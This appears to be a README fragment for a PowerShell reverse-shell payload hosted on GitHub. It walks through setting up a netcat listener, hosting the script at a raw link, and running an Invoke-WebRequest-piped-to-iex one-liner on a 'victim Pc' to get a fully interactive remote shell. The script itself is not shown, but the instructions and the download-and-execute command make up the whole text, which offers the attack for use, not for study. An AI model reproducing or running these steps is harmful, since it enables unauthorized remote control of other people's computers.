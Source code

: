 #INSTRUCTIONS : -
1.) Use netcat to setup a listener `nc -nlvp 'port'`. This will start a listener, make sure the port is accessible over the internet and allows inbound connection. 
2.) Upload the script on github or somewhere to get a raw link of the payload like `https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/powershell_reverse.ps1`.
3.) On the victim Pc open powershell and run `Invoke-webRequest "https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/powershell_reverse.ps1" | iex`. Replace this link with your link. 
You will get a connection on your netcat with a fully interactive shell. 

(UPDATES ARE UNDERWAY TO ADD FEATURES SUCH AS USING [TAB] FOR AUTO_COMPLETION AND OTHER COOL STUFF.
